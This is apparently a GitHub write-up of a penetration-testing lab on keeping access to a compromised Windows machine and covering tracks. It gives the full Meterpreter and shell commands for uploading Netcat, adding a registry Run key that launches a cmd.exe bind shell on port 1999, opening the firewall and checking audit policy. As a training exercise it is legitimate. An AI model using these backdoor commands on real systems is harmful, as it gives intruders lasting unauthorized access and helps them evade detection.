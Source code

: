 # Retaining Access and Covering Tracks - Penetration Testing Lab


## Discription
This lab focuses on the critical aspect of penetration testing: retaining access and covering tracks after successfully infiltrating a system. The objective is to install a backdoor to maintain access, even if the initial vulnerability is patched or discovered by the target organization. This lab utilizes tools like Netcat (nc) and the Meterpreter shell in Kali Linux.

## Key Steps

1. Gaining Initial Access:

   - Reuse the exploit from a previous module to gain access to the target machine using Meterpreter.

2. Installing a Backdoor:

   - Upload and install nc.exe (Netcat) to the target Windows machine.
   - Modify the system registry to ensure Netcat starts on system boot, listening on port 1999.
   - Ensure the firewall settings allow traffic on the specified port.

3. Maintaining Access:

   - Test the backdoor to ensure it provides a command shell to the Kali machine.
   - Confirm successful backdoor installation by executing commands like ipconfig and providing screenshots.

4. Covering Tracks:

   - Check the target’s audit settings using auditpol.
   - Manipulate or review event logs to assess the stealthiness of the penetration.

## Commands and Screenshots
### Screenshots were taken throughout the process to document access, command execution, and configuration changes.


#### Meterpreter access on your target host

<img src="https://i.imgur.com/rWefLNQ.png"/>

#### Shell command to list the audit settings.
```ps
auditpol /get /category:*
```

<img src="https://i.imgur.com/iCIwRDe.png"/>

<img src="https://i.imgur.com/6DphOwU.png"/>

#### Command for metepreter shell that will upload the nc.exe program to the target host's windows\system32 directory
```ps
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```

<img src="https://i.imgur.com/mJyeTK4.png"/>

#### Command set nc to start as a listener on port 1999 by changing the target host's system registry
```ps
reg enumkey –k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval –k HKLM\\software\\microsoft\\windows\\currentversion\\run –v nc –d ‘C:\windows\system32\nc.exe –Ldp 1999 –e cmd.exe’
```
#### Command to verify Netcat is set to automatically run on startup
```ps
reg queryval –k HKLM\\software\\microsoft\\windows\\currentversion\\Run –v nc
```

<img src="https://i.imgur.com/AJSSWNn.png"/>


#### Command to display target host's firewall settings
```ps
netsh firewall show opmode
```

<img src="https://i.imgur.com/04eLDn6.png"/>

#### Command to set target firewall to open port 1999
```ps
netsh firewall add portopening TCP 1999 “Service Firewall” ENABLE ALL
```

#### Command to verify firewall configuration for open ports
```ps
netsh firewall show portopening
```

<img src="https://i.imgur.com/6Al7h1I.png"/>


#### Command to access target host through backdoor at prot 1999
```ps
nc –v 10.19.99.110 1999
```

<img src="https://i.imgur.com/C0uk1OC.png"/>
